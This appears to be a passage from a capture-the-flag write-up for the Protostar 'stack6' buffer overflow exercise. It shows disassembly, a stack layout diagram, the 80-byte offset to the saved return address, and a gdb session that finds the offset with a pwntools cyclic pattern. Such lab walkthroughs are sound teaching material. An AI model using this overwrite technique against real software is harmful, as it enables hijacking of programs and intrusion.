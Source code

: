 ```
0x080484ec <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:	mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:	call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:	leave  
0x080484f9 <getpath+117>:	ret  

```

'buffer' start at [ebp-0x4c] , which mean we have a stack like this : 



```


  |  |---------------------|
  |  |                     | 
  |  |       Seip          | 
  |  |                     | 
  |  |---------------------|
  |  |                     |
  |  |       Sebp          |   
  |  |                     |
  |  |                     |  
  |  |---------------------|
  |  |                     |                            
  |  |      ........       |                              
  |  |                     |   <---- buffer                       
  |  |                     |                            
  |  |                     |                      
  |  |---------------------| ebp-0x4c                   
  v                                              


```

We can overwrite Seip after 0x4c+4 = 80 bytes


An other way to find it : 


I use pwntool to generate a sequential chunks. The generate chunk is very special (it is call de Bruijn sequences)
The same pattern (seq of 4 bytes) cannot be generate at two different location.


![](pattern.png)


Let's find the offset : 


```
(gdb) set disassembly-flavor intel
(gdb) r
Starting program: /opt/protostar/bin/stack6 
input path please: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
got path aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaauaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616175 in ?? ()
(gdb) 


```